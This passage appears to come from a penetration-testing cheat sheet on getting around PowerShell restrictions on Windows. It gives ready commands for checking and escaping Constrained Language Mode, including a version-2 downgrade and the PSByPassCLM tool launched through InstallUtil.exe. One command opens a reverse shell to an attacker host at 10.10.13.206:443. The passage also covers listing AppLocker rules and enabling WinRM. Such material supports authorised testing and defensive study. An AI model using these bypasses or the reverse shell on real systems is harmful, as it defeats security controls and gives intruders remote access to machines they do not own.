 More can be found [here](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

## Constrained language

```bash
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```

### Bypass

```bash
#Easy bypass
Powershell -version 2
```

In current Windows that Bypass won't work but you can use[ **PSByPassCLM**](https://github.com/padovah4ck/PSByPassCLM). **To compile it you may need** **to** _**Add a Reference**_ -&gt; _Browse_ -&gt;_Browse_ -&gt; add _C:\Windows\Microsoft.NET\assembly\GAC\_MSIL\System.Management.Automation\v4.0\_3.0.0.0\_\_31bf3856ad364e35\System.Management.Automation.dll\_ and **change the project to .Net4.5**.

#### Direct bypass:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /U c:\temp\psby.exe
```

#### Reverse shell:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

## AppLockerPolicy

Check which files/extensions are blacklisted/whitelisted.

```text
Get-ApplockerPolicy -Effective -xml
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
$a = Get-ApplockerPolicy -effective
$a.rulecollections
```

## Enable WinRM \(Remote PS\)

```bash
enable-psremoting -force #This enables winrm

## Change NetWorkConnection Category to Private
#Requires -RunasAdministrator

Get-NetConnectionProfile |
  Where{ $_.NetWorkCategory -ne 'Private'} |
  ForEach {
    $_
    $_|Set-NetConnectionProfile -NetWorkCategory Private -Confirm
  }
```
